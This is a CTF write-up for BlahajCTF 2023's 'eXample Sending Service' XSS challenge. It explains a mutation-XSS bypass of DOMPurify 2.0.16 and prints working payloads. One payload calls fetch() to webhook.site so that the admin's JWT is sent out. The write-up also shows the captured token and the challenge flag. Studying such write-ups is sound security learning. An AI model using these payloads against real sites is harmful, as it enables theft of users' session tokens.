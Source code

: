```yaml
---
title: eXample Sending Service
date: 2023-12-05
tags:
- web
- xss
- author-hartmannsyg
categories: BlahajCTF 2023
---
```


**Disclaimer: We did not solve the challenge but we were like 3 micrometers away from solving it**

> As part of Halogen's cybersecurity exam, Blahaj has to get the flag only accessible by the administrator. But Blahaj cannot even type with his flippers, help him pass!

This is another XSS Challenge where you send a message and the admin bot reads the message and sets a header that contains the admin jwt, which can be used to access `/flag`:

{% ccb caption:admin.js gutter1:10-29 lang:js %}
// Just your typical admin bot that reads the message
async function notify(msg) {
    // Launch the browser and open a new blank page
    const browser = await puppeteer.launch({
        args: [
            '--no-sandbox',
            '--disable-setuid-sandbox'
        ]
    });
    const page = await browser.newPage();

    // Navigate the page to a URL
    page.setExtraHTTPHeaders({
        'Authorization': 'Bearer ' + jwt.sign({
            message: msg,
            username: "admin"
        }, flag)
    });
    await page.goto('http://localhost:3000/read');
}
{% endccb %}

This XSS, however, requires a DOMPurify CVE:

{% ccb caption:app.js gutter1:36-40 lang:js %}
    const message = {
        name: DOMPurify.sanitize(req.body['name']),
        title: DOMPurify.sanitize(req.body['title']),
        body: DOMPurify.sanitize(req.body['message']),
    }
{% endccb %}

DOMPurify CVE Links:
- https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
- https://portswigger.net/daily-swig/dompurify-mutation-xss-bypass-achieved-through-mathml-namespace-confusion
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26870

This is because in the `package.json`, dompurify is only v2.0.16
{% ccb caption:package.json gutter1:11-12 lang:json %}
  "dependencies": {
    "dompurify": "^2.0.16",
{% endccb %}

So we can construct an XSS payload that works locally!

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
{% endccb %}

This would be enough to solve the challenge. However I am dumb:

When I tried testing around some javascript to xss into my https://webhook.site, I realized some of them was being caught by DOMPurify. So I decided to use [JSFuck](https://jsfuck.com/) to encode my payload, but while my XSS worked locally, it did not work on the admin, which lead me to spend most of time searching for how to circumvent this "check". However, it turns out that it was probably because my payload of jsfuck was just too big, so none of the payloads worked. If I did not encrypt my payload into JSFuck and just did something like:

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=fetch('https://webhook.site')&gt;">
{% endccb %}

I would have received the admin jwt:
{% ccb wrapped:true %}
Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJtZXNzYWdlIjp7Im5hbWUiOiJhIiwidGl0bGUiOiJhIiwiYm9keSI6IjxtYXRoPjxtdGV4dD48bWdseXBoPjxzdHlsZT48IS0tPC9zdHlsZT48aW1nIHRpdGxlPVwiLS0-PC9tZ2x5cGg-PGltZ1x0c3JjPTFcdG9uZXJyb3I9ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2Q3ZWU3ODZhLTgwODQtNDM3Ny05OGFiLWZkZDU1MmFiMmQ0ZicpPlwiPlxuPC9tZ2x5cGg-PHRhYmxlPjwvdGFibGU-PC9tdGV4dD48L21hdGg-In0sInVzZXJuYW1lIjoiYWRtaW4iLCJpYXQiOjE3MDE3NjA0MzR9.VZl-aNmRsB4bEPIvdffdS6Rl9DcxLWYkLT5ZORvGAvg 
{% endccb %}

and could have gone on to get the flag: `blahaj{d1d_y0u_f0rg0r_t0_upd4t3?}`
